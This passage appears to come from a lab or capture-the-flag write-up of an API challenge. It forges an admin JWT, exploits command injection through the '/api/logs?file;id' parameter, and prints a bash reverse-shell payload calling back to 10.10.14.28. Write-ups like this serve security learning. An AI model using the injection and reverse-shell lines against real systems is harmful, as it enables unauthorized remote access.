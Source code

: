 The docs also explain to us how it works:

![](Pasted%20image%2020241223104227.png)

![](Pasted%20image%2020241223104312.png)

## Exploitation

So it's time to create an account using the instructions using Postman.

First, I created my account.

![](Pasted%20image%2020241223105927.png)

Then I logged in to get my access token:

![](Pasted%20image%2020241223110043.png)

So my token is currently: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NzY5MzQ2ZmY3NmI3NjA0NWQxYTQ3M2QiLCJuYW1lIjoiZ2l0YmxhbmMiLCJlbWFpbCI6ImdpdGJsYW5jQGdpdGJsYW5jLmNvbSIsImlhdCI6MTczNDk0ODAyMX0.kvQOonU3kTtSk79yObABGlqVoVq5fhd_bUkeUEbFxH4`

Now we can check our privileges:

![](Pasted%20image%2020241223110257.png)

Now I can use the provided example of jwt token to craft the valid one by pasting it on the online tool:

![](Pasted%20image%2020241223111931.png)

So we finally got `theadmin` token: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmMDU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjI4NzI3NjY5fQ.52W5mGLsIO2iiLpy3f1VkVavP4hOoWHxy5_0BDn9UKo`

![](Pasted%20image%2020241223112029.png)

Now, we can check the `/api/logs` endpoint:

![](Pasted%20image%2020241223112118.png)

We will now exploit the command injection vulnerability by appending `?file;id`:

![](Pasted%20image%2020241223112339.png)

It's time to get a reverse shell:

```shell
;bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.28/666+0>%261'
```

![](Pasted%20image%2020241223112853.png)

![](Pasted%20image%2020241223112932.png)

